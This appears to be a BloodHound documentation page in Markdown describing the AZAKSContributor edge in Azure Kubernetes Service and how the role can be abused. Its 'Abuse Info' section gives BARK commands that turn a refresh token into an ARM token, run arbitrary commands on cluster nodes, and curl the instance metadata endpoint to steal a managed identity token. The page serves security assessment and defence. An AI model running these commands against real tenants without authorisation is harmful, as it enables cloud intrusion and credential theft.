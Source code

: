 ```yaml
---
title: AZAKSContributor
description: "The Azure Kubernetes Service Contributor role grants full control of the target Azure Kubernetes Service Managed Cluster."
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


 This includes the ability to remotely fetch administrator credentials for the cluster as well as the ability to execute arbitrary commands on compute nodes associated with the AKS Managed Cluster.

## Abuse Info

You can use BARK’s Invoke-AzureRMAKSRunCommand function to execute commands on compute nodes associated with the target AKS Managed Cluster.

This function requires you to supply an Azure Resource Manager scoped JWT associated with the principal that has the privilege to execute commands on the cluster. There are several ways to acquire a JWT. For example, you may use BARK’s Get-ARMTokenWithRefreshToken to acquire an Azure RM-scoped JWT by supplying a refresh token:

```bash
$ARMToken = Get-ARMTokenWithRefreshToken `
    -RefreshToken "0.ARwA6WgJJ9X2qk..." `
    -TenantID "contoso.onmicrosoft.com"
```

Now you can use BARK’s Invoke-AzureRMAKSRunCommand function to execute a command against the target AKS Managed Cluster. For example, to run a simple “whoami” command:

```bash
Invoke-AzureRMAKSRunCommand `
    -Token $ARMToken `
    -TargetAKSId "/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourcegroups/AKS_ResourceGroup/providers/Microsoft.ContainerService/managedClusters/mykubernetescluster" `
    -Command "whoami"
```
If the AKS Cluster or its associated Virtual Machine Scale Sets have managed identity assignments, you can use BARK’s Invoke-AzureRMAKSRunCommand function to retrieve a JWT for the managed identity Service Principal like this:

```bash
Invoke-AzureRMAKSRunCommand `
    -Token $ARMToken `
    -TargetAKSId "/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourcegroups/AKS_ResourceGroup/providers/Microsoft.ContainerService/managedClusters/mykubernetescluster" `
    -Command \\'curl -i -H "Metadata: true" "http://169.254.169.254/metadata/identity/oauth2/token?resource=https://graph.microsoft.com/&api-version=2019-08-01"\\'
```
If successful, the output will include a JWT for the managed identity service principal.

## Opsec Considerations

This will depend on which particular abuse you perform, but in general Azure will create a log event for each abuse.

## References

* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
* [https://www.netspi.com/blog/technical/cloud-penetration-testing/extract-credentials-from-azure-kubernetes-service/](https://www.netspi.com/blog/technical/cloud-penetration-testing/extract-credentials-from-azure-kubernetes-service/)
